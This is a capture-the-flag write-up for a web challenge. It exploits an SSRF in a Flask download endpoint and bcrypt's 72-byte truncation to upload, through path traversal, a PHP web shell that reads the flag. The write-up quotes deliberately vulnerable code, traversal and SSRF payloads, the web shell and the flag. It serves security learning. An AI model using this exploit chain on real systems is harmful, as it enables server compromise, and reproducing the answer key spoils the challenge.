










<font size='10'>pokemon gallery</font>

24<sup>th</sup> April 2025

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Hard</font>

<br><br>

## Solution

The challenge starts as follows.


We get a cool pokemon gallery and at the bottom of the page, we have two features.



From the looks of it we seem to have an upload and download functionality. But uploading any file, it asks for a hash and we don't seem to have it.

Let's dig in the source code.

We have two folders in the source code, one is a php-app and another is python-app.

Looking at the php-app, it just have one `index.php` file and seems to be running a local php server.

`Dockerfile` also confirms this.

```CMD ["sh", "-c", "php -S 127.0.0.1:8000 -t /app/php-app > /dev/null 2>&1 & python /app/python-app/app.py"]```

Now looking at the python-app, we see the `/upload` endpoint.

```python
@app.route("/upload", methods=["POST"])
def upload():
    uploaded_file = request.files.get("file")
    file_hash = request.form.get("hash")
    file_name = uploaded_file.filename
    
    if not uploaded_file or not file_hash:
        return "Missing file or hash", 400

    normed_filename = os.path.normpath(file_name)

    for original_path, stored_hash in ALL_VALID_UPLOADS.items():
        if (bcrypt.checkpw(file_name.encode(), stored_hash) and
            file_hash.encode() == stored_hash):
            
            pokemon_name = Path(original_path).stem
            room = next((r for r, names in ROOMS.items() if pokemon_name in names), None)
            
            folder_uuid = str(uuid.uuid5(uuid.NAMESPACE_DNS, f"{room}-{pokemon_name}"))
            intended_dir = os.path.join(UPLOAD_BASE, folder_uuid, "uploads")
            os.makedirs(intended_dir, exist_ok=True)
            
            try:
                uploaded_file.save(normed_filename)
                
                rel_path = os.path.join(folder_uuid, "uploads", f"{pokemon_name}.png")
                gallery_map[room][pokemon_name] = [rel_path, file_hash]
                
                return f"File uploaded successfully to: {normed_filename}"
            except Exception as e:
                return f"Error saving file: {str(e)}", 500

    return "Invalid filename or hash", 403
```

Here, we see that it takes in a file and a hash value as we've seen from the frontend. It then extracts our filename and parses it with `normpath`.

```python
normed_filename = os.path.normpath(file_name)
```

Then it matches our provided file name against a predefined set of file path and hashes.

If our filepath as well as corresponding hash matches then it lets us write that file otherwise we cannot do anything.

But where are these hashes and file paths? We have a `/debug` endpoint so it leaks all the details let's visit that.



Now let's try uploading a file and see if we provide correct path and hash we can upload or not.

Let's use `/app/python-app/0266d0f3-c973-5f63-a870-0589c6aba18c/uploads/mudkip.png` as filename and its corresponding hash `$2b$12$OSDuZPXBxlTckFb23pdyoexf4JE1FVG5STwZeI4./lu0q2dQzRyuO`.

Providing these values, we seem to have successfully uploaded a file.



Looking back at the home page, `mudkip` don't seem to have previous image now as we've replaced it with our own content.

We can open that file in browser but it'll show us a rendering error as it was expecting a PNG but we can do `curl` to the URL and see that our file indeed got uploaded.



But this upload doesn't benefit us in any way. We can see from the `Dockerfile` that the flag is in `/flag.txt` so we might need file read or RCE at this point to read the flag.

```RUN mv /app/flag.txt /flag.txt && \```

We saw that while downloading the file, it called `/download` endpoint. Looking at its source code:

```python
@app.route("/download")
def download():
    resource = request.args.get("resource")
    file_hash = request.args.get("hash")

    if resource and resource.startswith("external://"):
        url = resource.replace("external://", "http://", 1)
        try:
            r = requests.get(url)
            return r.text
        except Exception as e:
            return str(e), 500

    if not resource or not file_hash:
        return "Missing resource or hash", 400

    full_path = os.path.join(UPLOAD_BASE, resource)
    for stored_path, stored_hash in ALL_VALID_UPLOADS.items():
        if stored_path.endswith(resource):
            if (bcrypt.checkpw(stored_path.encode(), stored_hash) and 
                file_hash == stored_hash.decode()):
                try:
                    return send_file(full_path)
                except Exception as e:
                    return f"Error reading file: {str(e)}", 500

    return "File not found or access denied", 404
```

We can see that if our resource parameter starts with `external://` then it converts it into `http://` and calls the resource with `requests`.

Also, it doesn't match the `hash` if we do a `external://` at the start.

Let's first try with a simple payload:

```http://192.168.100.24:5000/download?resource=external://example.com```

And it indeed returned the `example.com` page.



Seems like a clear SSRF. Now we know from previous enum, that there's a PHP server running on port `8000`, let's visit that.



Great, we can access that as well. So my attack plan is if somehow I can write a file to `/app/php-app/file.php` I can trigger the file execution from the above SSRF then we can get RCE.

Now how do we write to that folder? We can only seem to write on the specified directory and files whose hashes are given.

We saw that it was using `bcrypt` in order to match whether we provide correct hash for correct directory. But doing a little bit of googling, we can find out that `bcrypt` has a limitation of `72` bytes.



Now if we go back to `/debug` endpoint, we see that out of all of the entries, there's one with exactly `72` bytes.

```/app/python-app/af1bb6bc-a0ad-5147-9ba7-80716cd5eeac/uploads/turtwig.png```

So if we parse this file name as `/app/python-app/af1bb6bc-a0ad-5147-9ba7-80716cd5eeac/uploads/turtwig.png` and do a directory traverse to write in the php app file as `/app/python-app/af1bb6bc-a0ad-5147-9ba7-80716cd5eeac/uploads/turtwig.png/../../../../../../../app/php-app/shell.php`, the bcrypt check would ignore anything after starting 72 bytes and we can get RCE.

Let's write the shell.

We'll upload RCE code as follows to read the flag.

```php
<?php system("cat /flag.txt"); ?>
```



Now let's call our web shell with SSRF and read the flag.




### Challenge Flag

flag{7urtw!g_h4s_w0n_th3_m4tch}